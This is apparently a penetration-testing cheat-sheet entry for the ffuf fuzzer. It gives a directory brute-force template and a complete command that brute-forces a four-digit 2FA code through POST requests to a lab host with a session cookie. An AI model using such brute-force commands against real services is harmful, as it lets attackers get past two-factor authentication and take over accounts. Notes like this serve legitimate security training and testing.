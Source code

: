 ### FFUF



Brute-force directories/files with specific extensions

```
ffuf -u <URL/FUZZ> -w <wordlist> -e <ext>
```

2FA /POST Bruteforce with FFUF exemple :

```
ffuf -v -w /usr/share/wordlists/seclists/Fuzzing/4-digits-0000-9999.txt -u http://192.168.236.110/2fa.php -X POST \
     -H "Host: 192.168.236.110" \
     -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0" \
     -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" \
     -H "Accept-Language: en-US,en;q=0.5" \
     -H "Accept-Encoding: gzip, deflate, br" \
     -H "Content-Type: application/x-www-form-urlencoded" \
     -H "Origin: http://192.168.236.110" \
     -H "Referer: http://192.168.236.110/2fa.php" \
     -H "Cookie: PHPSESSID=sodtq3hkqpjf00lb9lktfigse9" \
     -d "2fa_code=FUZZ"
```



```

```

